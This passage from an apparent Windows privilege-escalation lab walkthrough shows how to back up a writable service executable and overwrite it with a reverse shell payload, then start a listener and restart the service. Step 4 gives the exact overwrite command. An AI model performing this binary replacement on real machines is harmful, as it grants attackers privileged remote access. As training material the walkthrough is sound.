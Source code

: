 ![start_stop_check](Pastedimage20230220132229.png)

-   From the output above, we can start and stop the service
-   We can configure the service.

##### Step 3. 
Backup the original file: `copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp`

#### Step 4. 
Copy the reverse shell executable and overwrite the original executable. Use the following command. Change the name of the reverse shell payload to yours: `copy C:\PrivEsc\reversee.exe "C:\Program Files\File Permissions Service\filepermservice.exe"` ![copy_reverse](Pastedimage20230220132757.png)

##### Step 5.
Set up a listener on a Linux virtual machine and start the service: ![listerner](Pastedimage20230220133015.png)
